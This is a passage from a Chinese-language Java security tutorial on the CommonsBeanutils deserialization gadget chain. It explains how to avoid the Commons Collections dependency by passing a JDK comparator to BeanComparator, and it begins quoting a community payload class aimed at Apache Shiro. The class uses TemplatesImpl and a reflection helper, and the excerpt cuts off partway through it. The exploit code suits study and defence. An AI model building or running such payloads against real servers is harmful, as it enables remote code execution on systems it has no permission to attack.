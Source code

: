 ```java
            inputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) throws Exception {

        CB();
    }
}
```

![](./Java安全学习—CommonsBeanutils链/4.png)

## ExploitWithoutCC
在`ExploitWithoutCC`中的代码可成功构造反序列化利用, 但是`BeanComparator`的默认`comparator`是`ComparableComparator`, 这是个`CommonCollections`中的类, 导致了这明明是一条`CB`的触发链, 却要同时依赖`CC`. 增加了很多利用的限制. 因此为了改变这一现状, 在实例化`BeanComparator`时赋予其一个`JDK`自带的并且实现了`Serializable`接口的`comparator`即可, 比如`java.util.Collections$ReverseComparator`和`java.lang.String$CaseInsensitiveComparator`等. 通过反射实例化`Comparator`, 并在`BeanComparator`初始化时进行指定即可.

这里贴一个师傅们的`Payload`:

```java
package com.govuln.shiroattack;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CommonsBeanutils1Shiro {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
```